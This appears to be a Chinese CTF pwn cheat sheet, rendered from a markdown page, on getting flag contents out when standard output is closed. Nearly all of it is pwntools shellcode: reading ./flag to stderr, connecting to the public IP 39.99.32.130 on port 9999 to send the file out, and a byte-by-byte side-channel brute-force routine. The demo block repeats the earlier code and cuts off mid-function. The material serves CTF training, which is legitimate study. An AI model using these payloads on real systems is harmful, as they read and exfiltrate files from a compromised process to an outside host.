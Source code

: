 ### 关闭标准输出流时


#### 使用标准错误流输出

```python
shellcode = shellcraft.open('./flag')
shellcode += shellcraft.read('rax', 'rsp', 0x30)
shellcode += shellcraft.write(2, 'rsp', 0x30)
payload = asm(shellcode)
```

#### 使用socket发送数据到公网

```python
shellcode = ''
shellcode += sendflag_asm('39.99.32.130', 9999)
payload = asm(shellcode)
```

```python
shellcode = ''
shellcode += shellcraft.open('flag', 0)
shellcode += shellcraft.mov('ebx', 'eax')
shellcode += shellcraft.connect('39.99.32.130', 9999, 'ipv4')
shellcode += shellcraft.sendfile('edi', 'ebx', 0, 0x100)
payload = asm(shellcode)
```

#### 测信道攻击

利用循环对flag进行爆破

```python
context(arch='amd64', os='linux', terminal=['tmux', 'splitw', '-h', '-p', '75'])    
def GuessString(index, char):
    '''
        eg : GuessString(0, 'f')
        猜测正确:进入无限循环
        猜测失败:退出
    '''
    shellcode = ''
    shellcode += shellcraft.open('./flag')
    shellcode += shellcraft.read('rax', 'rsp', 0x50)
    shellcode += 'lea rdi, [rsp+{}]\n'.format(index)
    shellcode += 'cmp byte ptr [rdi], {}\n'.format(hex(ord(char)))
    shellcode += 'jne fail\n'
    shellcode += shellcraft.infloop()
    shellcode += 'fail:\n'
    # shellcode += shellcraft.exit(0)
    return shellcode
```

__demo:__

```python
context(arch='amd64', os='linux', terminal=['tmux', 'splitw', '-h', '-p', '75'])    

def GuessString(index, char):
    '''
        eg : GuessString(0, 'f')
        猜测正确:进入无限循环
        猜测失败:退出
    '''
    shellcode = ''
    shellcode += shellcraft.open('./flag')
    shellcode += shellcraft.read('rax', 'rsp', 0x50)
    shellcode += 'lea rdi, [rsp+{}]\n'.format(index)
```